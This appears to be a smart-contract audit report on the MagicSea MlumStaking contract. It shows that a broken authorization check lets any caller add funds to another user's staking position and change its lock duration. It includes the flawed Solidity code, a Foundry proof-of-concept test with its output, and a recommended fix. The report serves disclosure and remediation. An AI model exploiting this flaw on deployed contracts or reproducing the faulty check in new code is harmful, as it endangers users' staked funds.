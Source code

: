 Faithful Cider Cuckoo

Medium

# Anyone can add funds to any position

## Summary
In MlumStaking contract, anyone can add funds to any position without permission
## Vulnerability Detail
Due to wrong implementation of _requireOnlyOperatorOrOwnerOf(tokenId) function, adding funds to any position is permitted
## Impact

Core function misimplementation
Lock durations can be manipulated

## Code Snippet
Calling _isAuthorized() with same spender and owner will cause all the behaviours will be permitted expect calling by address(0)

Implementation of _isAuthorized() function:
```solidity
    function _isAuthorized(address owner, address spender, uint256 tokenId) internal view virtual returns (bool) {
        return
            spender != address(0) &&
            (owner == spender || isApprovedForAll(owner, spender) || _getApproved(tokenId) == spender);
    }
```

https://github.com/sherlock-audit/2024-06-magicsea/blob/42e799446595c542eff9519353d3becc50cdba63/magicsea-staking/src/MlumStaking.sol#L140C1-L143C6
```solidity
    function _requireOnlyOperatorOrOwnerOf(uint256 tokenId) internal view {
        // isApprovedOrOwner: caller has no rights on token
        require(ERC721Upgradeable._isAuthorized(msg.sender, msg.sender, tokenId), "FORBIDDEN");
    }
```
https://github.com/sherlock-audit/2024-06-magicsea/blob/42e799446595c542eff9519353d3becc50cdba63/magicsea-staking/src/MlumStaking.sol#L397C1-L398C48
```solidity
    function addToPosition(uint256 tokenId, uint256 amountToAdd) external override nonReentrant {
        _requireOnlyOperatorOrOwnerOf(tokenId);
```

## Proof of Concept
Following test function can be used for PoC :

Note:  
```solidity
console.log("Remaining lock time: %s", remainingLockTime);
```
Line added to addToPosition() function.
```solidity
    function testFail_AddToPositionForOtherAddress() public {
        _stakingToken.mint(ALICE, 2 ether);
        _stakingToken.mint(BOB, 1 ether);

        vm.startPrank(ALICE);
        _stakingToken.approve(address(_pool), 1 ether);
        _pool.createPosition(1 ether, 1 weeks);
        vm.stopPrank();

        IMlumStaking.StakingPosition memory position = _pool.getStakingPosition(1);
        console.log("Lock Duration after position creation: %s", position.lockDuration);

        skip(3 days);

        vm.startPrank(BOB);
        _stakingToken.approve(address(_pool), 1 ether);
        position = _pool.getStakingPosition(1);
        _pool.addToPosition(1, 1 ether);
        vm.stopPrank();

        position = _pool.getStakingPosition(1);
        console.log("Lock Duration after Bob's call: %s", position.lockDuration);
    }
```
The output:
```console
Ran 1 test for test/MlumStaking.t.sol:MlumStakingTest
[FAIL. Reason: assertion failed] testFail_AddToPositionForOtherAddress() (gas: 534266)
Logs:
  Lock Duration after position creation: 604800
  Remaining lock time: 345600
  Lock Duration after Bob's call: 475200

Suite result: FAILED. 0 passed; 1 failed; 0 skipped; finished in 1.99ms (689.86µs CPU time)

Ran 1 test suite in 30.68ms (1.99ms CPU time): 0 tests passed, 1 failed, 0 skipped (1 total tests)

Failing tests:
Encountered 1 failing test in test/MlumStaking.t.sol:MlumStakingTest
[FAIL. Reason: assertion failed] testFail_AddToPositionForOtherAddress() (gas: 534266)

Encountered a total of 1 failing tests, 0 tests succeeded
```
## Tool used

Manual Review

## Recommendation
Following implementation can solve the problem:
```solidity
@@ -139,7 +139,7 @@ contract MlumStaking is
      */
     function _requireOnlyOperatorOrOwnerOf(uint256 tokenId) internal view {
         // isApprovedOrOwner: caller has no rights on token
-        require(ERC721Upgradeable._isAuthorized(msg.sender, msg.sender, tokenId), "FORBIDDEN");
+        require((_ownerOf(tokenId) == msg.sender || address(_operator) == msg.sender), "FORBIDDEN");
     }
```
